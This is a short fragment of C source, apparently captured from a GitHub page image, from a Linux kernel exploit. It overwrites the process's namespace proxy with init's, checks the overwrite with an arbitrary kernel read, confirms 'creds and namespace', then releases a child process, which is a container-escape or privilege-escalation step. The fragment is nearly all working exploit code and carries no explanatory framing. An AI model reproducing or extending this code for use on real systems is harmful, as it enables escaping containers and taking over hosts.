 ```c

    // Overwrite our nsproxy with init's
    sleep(1);
    info("Overwriting our nsproxy with init's...");
    overwrite_nsproxy();

    // Make sure it's correct
    check_cred = read_8_at(g_nsproxy_where);
    if (check_cred != g_nsproxy_what)
    {
        err("check_rec: 0x%lx != g_nsproxy_what: 0x%lx",
            check_cred, g_nsproxy_what);
    }

    info("Creds and namespace look good!");
    
    // Let the child loose
    *(int *)g_shmem = 0x1337;

    sleep(3000);
}
```
